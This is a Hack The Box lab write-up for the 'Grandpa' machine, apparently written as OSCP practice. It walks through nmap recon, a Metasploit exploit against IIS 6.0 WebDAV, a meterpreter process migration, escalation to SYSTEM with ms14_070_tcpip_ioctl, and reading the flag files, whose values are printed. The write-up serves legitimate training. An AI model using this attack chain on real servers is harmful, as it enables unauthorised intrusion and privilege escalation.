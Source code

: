 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Grandpa
tags: []
---
```

**Start 12:56 14-08**

---
```
10.10.10.14
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.14                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 11:56 IST
Nmap scan report for 10.10.10.14
Host is up (0.016s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.26 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 -p- 10.10.10.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 11:56 IST
Nmap scan report for 10.10.10.14
Host is up (0.016s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Wed, 14 Aug 2024 10:58:28 GMT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.54 seconds
```

For this version of `Microsoft IIS httpd 6.0` we've found an exploit:

![](../../../assets/7df83f956ca3caa131881cd46b663fbb.png)

## Metasploit

There's a `metasploit` module for it:

![](../../../assets/91b9a6f7b8dde3529513f37d1f9921e1.png)

Configure the options and just run the exploit.

After getting the shell we can `systeminfo` the target:

```powershell
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 17 Minutes, 15 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 762 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,299 MB
Page File: In Use:         171 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

c:\windows\system32\inetsrv>
```

We can now use `metasploit` to look up vulnerabilities for this version, it's called `local_exploit_suggester`.

Configure it to your current session, and then run the exploit afterwards.

![](../../../assets/e1023f7de49977daa0aa73a56ae9250d.png)

From these it appears that `exploit/windows/local/ms14_070_tcpip_ioctl` is most interesting to us.
Let's use it and set up the options. First we'll have to migrate to a process running under `NT AUTHORITY\NETWORK SERVICE` which we can find using `ps` in `meterpreter`.

![](../../../assets/72564c4ea1d5b1d3b8fd1980fa8b2c8e.png)

We'll migrate to `3796`.

```bash
meterpreter > migrate 3796
[*] Migrating from 3848 to 3796...
[*] Migration completed successfully.
meterpreter > 
```

Now we can use the `ms14_070_tcpip_ioctl` exploit.

![](../../../assets/a5536e100dd5bda3634653e5dbc9de8c.png)

```bash
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

Great, now we can get those flags.

## Flags

==user.txt==
go into `Documents and settings` and from here we can get both flags:
![](../../../assets/51488557edce1ea888330a345dba4a6a.png)

Since I had trouble accessing the files via the `shell` I instead opted for the `meterpreter session`:

```bash
# Failed attempts
C:\>cd "Documents and Settings"
cd "Documents and Settings"

C:\Documents and Settings>cd Administrator
cd Administrator
Access is denied.
```

```bash
meterpreter > cat "C:\Documents and Settings\Harry\Desktop\user.txt"
bdff5ec67c3cff017f2bedc146a5d869
```

==root.txt==
Same for the `root flag`:

```bash
meterpreter > cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
9359e905a2c35f861f6a57cecf28bb7b
```


![](../../../assets/6d5c1b6c23e49c85e2617d603d2257fa.png)


---

**Finished 14:05**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
